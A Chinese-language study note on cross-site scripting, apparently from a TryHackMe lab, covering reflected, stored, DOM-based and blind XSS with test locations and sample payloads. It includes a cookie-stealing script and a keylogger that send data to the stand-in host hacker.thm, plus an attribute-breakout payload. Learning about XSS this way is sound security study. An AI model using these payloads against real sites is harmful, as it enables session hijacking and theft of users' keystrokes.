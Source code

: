 ### Cross-site Scripting(XSS)
- 简介
- XSS Payloads
  - 常见的有效载荷
    - 验证，是否存在XSS
    ```JavaScript 
      <script>alert('XSS');</script>
    ```
    - 会话窃取
    ```JavaScript
      <script>
        fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));
      </script>
    ```
    - 按键记录器
    ```JavaScript
      <script>
        document.onkeypress = function(e) { 
            fetch('https://hacker.thm/log?key=' + btoa(e.key) );
          }
      </script>
    ```
- Reflected XSS
  - 当用户在HTTP请求中提供的数据未经任何验证就包含在网页源中时，就会发生反射型 XSS
  - 常见测试位置
    - URL中的查询参数
    - 网址文件路径
    - 在HTTP标头
- Stored XSS
  - 常见测试位置
    - 博客评论
    - 用户档案信息
    - 网站列表
- 基于DOM的XSS
  - DOM
    - DOM指文件对象模型，是HTML和XML文档的编程接口。

    ![HTML DOM 的图表](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/24a54ac532b5820bf0ffdddf00ab2247.png)
  - 基于 DOM 的 XSS 是 JavaScript 直接在浏览器中执行的地方，无需加载任何新页面或将数据提交给后端代码。
  - 当网站 JavaScript 代码作用于输入或用户交互时执行。
- Blind XSS
  - 类似于Stored XSS,只是攻击者看不到反射结果
  - 示例场景
    - 一个网站有一个联系表单，可以通过表单向员工发送消息。
    - 后台不会检查表单内容是否有任何恶意代码，这使攻击者可以输入他们想要的任何内容。
    - 然后，这些消息会变成工单，员工可以在后台网站上查看这些工单。
  - 潜在影响
    - 使用正确的payload，攻击者的 JavaScript 可以回调攻击者的网站，显示员工门户 URL、员工的 cookie，甚至是正在查看的门户页面的内容。
  - 流行的Blind XSS工具 [XSShunter](https://github.com/mandatoryprogrammer/xsshunter-express)
- 完善Payload
  - 级别1
    ```JavaScript 
      <script>alert('XSS');</script>
    ```
  - 级别2
    ```JavaScript
      //html文档
      <input value="123"> 
      //payload
      "><script>alert('XSS');</script>
      //结果预览
      <input value=""><script>alert('XSS');</script>"> 
    ```
